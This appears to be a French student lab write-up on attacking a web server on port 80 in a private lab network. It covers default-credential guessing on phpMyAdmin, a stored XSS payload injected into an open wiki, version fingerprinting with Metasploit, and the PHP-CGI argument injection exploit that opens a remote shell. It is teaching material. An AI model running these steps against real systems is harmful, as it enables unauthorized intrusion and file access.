








# Exploitation d'une faille HTTP (Port 80)

## 1. Présentation du port 80

Aujourd'hui on va regarder le port 80, qui correspond au protocole HTTP
(HyperText Transfer Protocol).

Ce protocole sert principalement à héberger et afficher des sites web.

Par exemple, quand on tape dans un navigateur :

"http://site.fr"

Voici ce qui se passe :

1.  Le navigateur se connecte sur le port 80 du serveur.
2.  Il envoie une requête HTTP (par exemple GET /index.html).
3.  Le serveur répond en renvoyant une page HTML.

Les applications web sont très souvent attaquées, car elles peuvent
contenir beaucoup de vulnérabilités.

Quelques exemples de failles courantes :

-   SQL Injection
-   File Upload
-   Authentification faible
-   XSS (Cross Site Scripting)

Le port 80 représente donc une grande surface d'attaque.

------------------------------------------------------------------------

# 2. Phase d'énumération

Avant d'attaquer un service web, il faut énumérer toutes les pages
disponibles.on va tapper dans la barre de recherche http://192.168.200.2 qui est l'addresse ip cible trouvée grace au scan du réseau 

L'objectif est de trouver :

-   une page admin
-   une page login
-   un panel d'administration

Sur la cible, on trouve plusieurs pages intéressantes :

-   un wiki
-   phpMyAdmin

------------------------------------------------------------------------

# 3. Tentative d'accès à phpMyAdmin

Quand on ouvre phpMyAdmin, on arrive sur une page de connexion.

On peut essayer des identifiants simples comme :

admin / admin\
root / root

Mais ici ça ne fonctionne pas.

------------------------------------------------------------------------

# 4. Exploration du Wiki

On va donc regarder la page Wiki.

Un wiki est une plateforme où l'on peut :

-   écrire du texte
-   modifier des pages
-   ajouter du contenu

Normalement il faut être connecté pour modifier une page.

Mais ici on peut accéder et modifier le wiki sans authentification, ce
qui est une mauvaise configuration.

## Exemple de modification d'une page

On se rend par exemple sur la page SandBox.

Si on trouve un bouton Edit, on peut essayer de modifier la page.

On écrit simplement :

test

Puis on enregistre la page.



On voit que le texte apparaît bien.



Cela signifie que nous avons le droit de modifier la page sans être
connecté.

C'est une faille de configuration.

------------------------------------------------------------------------

# 5. Injection JavaScript (XSS)

Puisqu'on peut modifier la page, on peut essayer d'injecter du code
JavaScript.

Par exemple :

```{=html}
<script>alert("XSS")</script>
```
Après avoir enregistré la modification, une fenêtre s'ouvre dans le
navigateur.



Cela signifie que nous avons réussi une attaque XSS (Cross Site
Scripting).

Cette vulnérabilité permet notamment de :

-   voler des cookies
-   voler des sessions
-   injecter du contenu malveillant

------------------------------------------------------------------------

# 6. Recherche d'informations sur le serveur

Maintenant on va essayer de trouver la version du serveur web.

On retourne sur notre terminal Kali Linux et on utilise Metasploit.

msfconsole

Puis on cherche un module pour récupérer la version HTTP :

search http_version



On utilise ensuite le module correspondant :

use 0

Puis on regarde les options :

show options



On renseigne la cible :

set RHOSTS 192.168.200.2

Puis on lance le module :

run

------------------------------------------------------------------------

# 7. Identification des versions

On obtient les informations suivantes :

-   Apache 2.2.8
-   PHP 5.2.4



Ces versions sont anciennes et vulnérables.

------------------------------------------------------------------------

# 8. Recherche d'exploit

Après quelques recherches, on trouve que PHP 5.2.4 est vulnérable à une
exécution de commande arbitraire via PHP-CGI.

Metasploit possède un module correspondant :

PHP CGI Argument Injection

------------------------------------------------------------------------

# 9. Exploitation

On sélectionne l'exploit :

use exploit/multi/http/php_cgi_arg_injection

Ou plus simplement :

use 0

Puis :

show options\
set RHOSTS 192.168.200.2\
run
C'est facultatif mais pour LHOST on peut remplpacer l'addresse localhost par notre addresse ip donc 192.168.200.1.

Une fois l'exploit exécuté, un shell est ouvert sur la machine cible.

On peut vérifier en exécutant :

cd /

Si la commande fonctionne, cela signifie que nous avons accès au système
de la cible.Comme on le voit aux permissions de other, on a accés en lecture a tous les fichiers de la cible !! 

------------------------------------------------------------------------

# Conclusion

Dans cette exploitation nous avons :

1.  Analysé le port 80 (HTTP)
2.  Énuméré les pages du site
3.  Trouvé une mauvaise configuration du wiki
4.  Exploité une vulnérabilité XSS
5.  Identifié les versions du serveur
6.  Trouvé un exploit pour PHP
7.  Obtenu un shell sur la machine cible

Cela montre pourquoi les applications web sont une cible majeure en
cybersécurité.
